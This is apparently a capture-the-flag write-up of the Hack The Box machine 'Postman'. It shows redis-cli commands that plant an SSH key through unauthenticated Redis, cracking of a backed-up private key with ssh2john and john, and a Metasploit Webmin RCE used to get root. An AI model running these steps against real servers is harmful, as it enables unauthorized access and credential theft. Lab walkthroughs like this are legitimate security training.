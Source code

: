 ```yaml
---
title:     "Hack The Box - Postman"
tags: [linux,easy,redis,john]
layout: post
categories: HackTheBox
---
```


![](/img/htb-postman/img8.png)

We are going to pwn Postman from Hack The Box. Postman is a easy level linux machine.
Take a cup of tea and let's get started.

Link : <https://www.hackthebox.eu/home/machines/profile/215>

## Enumeration

Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-server-header: MiniServ/1.910
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), Linux 3.18 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Found that port 80 http is open, so a site must be running. 

![](/img/htb-postman/img13.png)

The site looks to be under construction.
The Only thing I got from webpage is email address at the bottom.

Tried DIRB to find out any sub-directories that may help.

![](/img/htb-postman/img17.png)

![](/img/htb-postman/img19.png)

Tried different wordlists with dirb but the results doesn't reveal any useful directories.
/upload had nothing useful.


Found out that the service “redis” is running on port 6379. 
Interestingly found a nse script for redis-info.

![](/img/htb-postman/img25.png)


## Exploiting Redis

Started reading about the redis in detail and to seehow it works. It is used as an
in-memory distributed database.
Also found this Redis Unauthorized Access Vulnerability that saved my life.
https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e

According to it,
Under certain conditions, if Redis runs with the root account (or not even), attackers can
write an SSH public key file to the root account, directly logging on to the victim server
through SSH. This may allow hackers to gain server privileges, delete or steal data, or
even lead to an encryption extortion, critically endangering normal business services.

Nice. I looked at its simulation and started doing the same process.

Also found another link with the same procedure,
https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html
These blogs saved my life. So I downloaded the redistools on my machine and started
doing the same steps.


First we generate the SSH KEYS with passphrase (90909090 for this case)

```
$ ssh-keygen -t rsa
```

![](/img/htb-postman/img44.png)

Remember, don't leave the passphrase empty. I tried with an empty passphrase and
encountered several problems, idk why. Keep it anything,just dont leave it empty.

Next, enter the .ssh folder. If you are root user,enter /.ssh, otherwise ~/.ssh, then copy
the private key into temp.txt. (or whatever.txt)

```
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n")> temp.txt
$ cat temp.txt (To Check the Key)
```

![](/img/htb-postman/img46.png)

So far we have generated a pair of keys, we will needto find a way to smuggle the
public key to the Redis server.
We are going to use redis-cli, the Redis command lineinterface, to send commands to
Redis and read the replies sent by the server directlyin the terminal.

```
$ cat temp.txt | redis-cli -h 10.10.10.160 -x setfok
```

Once Done, we have a key with our SSH key sneakedin! Let’s connect to the Redis
and play around its configuration. Use redis-cli toconnect to the Redis server again.
Take a look at the site and follow the same commands.

```
$ redis-cli -h 10.10.10.160
10.10.10.160:6379> get fok (key sent from previouscommand)
10.10.10.160:6379> CONFIG GET dir (Tell which directory you are in)
10.10.10.160:6379> CONFIG SET dir var/lib/redis/.ssh (set default directory of user redis)
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
10.10.10.160:6379> save (save the key)
```

![](/img/htb-postman/img51.png)

Let’s Try to Connect with SSH

Enter your passphrase and voila!

![](/img/htb-postman/img55.png)

TADA!!! Got a user “redis” shell. DAMN!

## Privilege Escalation

Ran to the /home file to find the user named “MATT”.I found the user.txt inside but
> PERMISSION DENIED!

These sites would help a lot :

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

https://guif.re/linuxeop

https://www.hackingarticles.in/privilege-escalation-cheatsheet-vulnhub/

Tried find the SUID Binaries to see if i could exploit them somehow.

![](/img/htb-postman/img61.png)


Tried everything, found the OS, Kernel, Distribution blah blah blah with the above
websites.

Ran LinEnum.sh to get more details.

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

![](/img/htb-postman/img66.png)

Found this through the script,

![](/img/htb-postman/img67.png)

Checked the bash_history of user “redis” : (See something common)


![](/img/htb-postman/img70.png)

Found a backup of Some Private Key inside the /opt/as /opt/id_rsa.bak and copied to
my Machine. (named it user.hash)

![](/img/htb-postman/img72.png)

We convert this private-Key to John Readable Hash with /ssh2john.py so that it can be
cracked with a appropriate wordlist.

$ cd /usr/share/john
You can see lot of keys to john-hash converter python scripts. Use the ssh2john.py
$ ./ssh2john.py {Location of the saved hash} > MATT.hash
This will convert the private ssh key to john readable hash.
$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt MATT.hash

![](/img/htb-postman/img76.png)

YEAH!!! Found the user password for “Matt” to be “computer2008”

Login inside the User “Matt”


![](/img/htb-postman/img78.png)

Yeah, Found the User Hash.

Tears of joy.

Went back to the HTB Forums and found out this hint:
ROOT: As said, you know are able to use an exploit that you couldn't use before.

Went back to Metasploit for the Webmin Exploit I found earlier but that didn't work. So
Let’s try that :

![](/img/htb-postman/img81.png)

It’s the webmin_packageup_rce script. Fired it up and set the options.
Ran the script and voila!!!!

![](/img/htb-postman/img83.png)

It worked! Man I knew what i had to do!

![](/img/htb-postman/img85.png)

I got root!


